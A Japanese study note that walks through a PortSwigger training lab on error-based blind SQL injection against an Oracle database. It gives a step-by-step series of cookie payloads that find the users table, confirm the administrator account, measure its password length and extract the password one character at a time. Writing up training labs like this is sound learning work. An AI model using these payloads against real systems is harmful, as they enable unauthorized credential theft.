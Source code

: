 Date: 2025-09-10
Tags: 
Links: [[WSA]], [[SQL]]
***

 真偽値が振る舞いに影響しないとき。
 エラーなら見えるかもしれない。
→条件が真の時エラーを起こすようにする。

例：
```sql
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

>連結子を使えばandである必要はない。andは条件式を繋げる。

***
## Lab: Blind SQL injection with conditional errors


**1. エラーが起こる**
```sql
TrackingId=xyz'
````

 **2. エラーが消える**
```sql
TrackingId=xyz''
```

**3. SQLクエリによるエラーだと確認（エラーが起こる）**
```sql
TrackingId=xyz'||(SELECT '')||'
```
>サブクエリは（）で囲まないといけない。

**4. Oracle特有の dual を指定してエラーが消える**
```sql
TrackingId=xyz'||(SELECT '' FROM dual)||'
```

**5. 存在しないテーブルでエラーが起こる**
```sql
TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'
```

**6. users テーブルの存在を確認（エラーなし）**
```sql
TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
```

>Oracle では ROWNUM は 行が返される順番に割り振られるため、
>WHERE ROWNUM = 1 は 最初に見つかった 1 行だけ に制限される。

**7. 条件によるエラーの確認**
- 真のとき → エラー
```sql
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

>TO_CHARはwyzと確実に連結するため
>重要

- 偽のとき → エラーなし
```sql
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

**8. administrator ユーザの存在確認（エラーあり → 存在する）**
```sql
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END 
FROM users WHERE username='administrator')||'
```

**9. パスワード長の確認**
```sql
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END 
FROM users WHERE username='administrator')||'
```
→ 値を増やしながらエラーが消える箇所を探す。結果：**20文字**


 **10. 各文字を特定**
1文字目を 'a' と比較
```sql
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END 
FROM users WHERE username='administrator')||'
```
- Burp Intruder で a-z0-9 をペイロードに設定し、HTTP 500 が返る値を特定
- オフセットを 2, 3, … と進めて全20文字を抽出

***
# References

https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors